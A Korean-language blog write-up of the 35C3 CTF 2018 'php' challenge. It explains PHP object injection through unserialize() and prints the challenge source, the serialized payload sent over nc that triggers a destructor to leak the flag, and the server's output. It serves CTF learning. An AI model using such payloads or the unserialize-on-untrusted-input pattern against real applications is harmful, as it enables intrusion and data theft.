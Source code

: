 ```yaml
---
title: "[35C3 CTF 2018] php Write up"
date: 2018-12-30
draft: false
category: [ctf]
subcategories: [2018]
tags: [Write-up, CTF, 35C3CTF2018]
---
```



어제 ctftime을 돌아보다가 `35C3 CTF`가 하고 있길래 한 문제를 풀어보았다.  

원래 몇개 더 풀어보고 싶었는데 어떻게 푸는건지를 모르겠다.  

아직 Write up이 안올라왔던데, 나중에 올라오면 찾아봐야겠다.  

<!--more-->

일단 `php` 문제 정보는 다음과 같다.  

```
PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.

Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: nc 35.242.207.13 1
```

파일을 다운받아 압축을 풀어보면 `php.php` 파일을 확인할 수 있다.  

`php.php`의 내용은 다음과 같다.  

```php
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
```

`STDIN`으로 입력 값을 받아 `$line`에 저장한 후, 이를 `unserialize` 함수를 통해 `unserialize` 한 값을 `$a`에 저장한다.  

마지막으로 `$a`를 출력 해 준다.  

그런데 위를 살펴보면 `B`라는 `class`가 선언되어 있고, `__destruct` 함수 안에 `$flag`함수를 출력 해 준다.  

아무래도 `unserialize` 함수의 취약점(?)을 가지고 푸는 문제인 것 같아 일단 `unserialize`함수가 무엇인지를 찾아보았다.  

> serialize()  
>> PHP 변수들을 string으로 만들어 주는 함수  
>> ex) serialize(array(3, 4, 5, 6)) => a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}  
>> a:4 => 배열의 크기는 4  
>> object 일 경우 O:object_name_length:"object_name":object_size:  
>> ex) O:8:"stdclass":8:  
>> i:0;i:3 => 배열 첫 번째 인덱스의 값은 3  
>> int가 아닌 string 형태 일 경우 s:string_length:"string";    
>> ex) s:3:"one";

> unserialize()  
>> serialize 된 변수를 PHP 값으로 변환  
>> ex) unserialize(a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}) => Array([0] => 3 [1] => 4 [2] => 5 [3] => 6)  

그런데 찾아보다 보니, 아래와 같은 블로그를 찾을 수 있었다.  

> [http://qkqhxla1.tistory.com/444](http://qkqhxla1.tistory.com/444)

`php object injection`에 대한 설명인데, 취약점 exploit을 위한 아래의 두 가지 조건이 `php` 문제와 정확히 일치한다.  

1. 어플리케이션은 php의 매직 메소드(__wakeup이나 destrust 같은)를 구현한 클래스를 가지고 있어야 한다.  
2. 공격중의 모든 클래스들은 취약한 unserialize()가 호출되기 전에 선언되어야 한다.  

그래서 아래와 같이 입력 해 보았다.  

```
O:1:"B":1{s:4:"flag";s:5:"/flag";}
```

그러면 `B` 클래스에 `flag`라는 이름으로 `/flag`를 할당하고 `__destruct` 메소드를 호출하며 `echo $flag`를 실행 할 것이다.  

문제에 접속하여 위와 같이 입력 했더니 flag를 읽을 수 있었다!  

```
$ nc 35.242.207.13 1
O:1:"B":1{s:4:"flag";s:5:"/flag";}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

그런데 이 문제 다시 생각 해 보니 어찌됬든 `__destruct` 메소드만 호출하도록 하면 되서 굳이 내가 한 방식 말고 `O:1:"B":1:{}` 이런식으로 해도 문제가 풀릴 것 같다.  

근데 뭐 풀었으니 됬다 ㅎㅎㅎ  

```
35C3_php_is_fun_php_is_fun
```
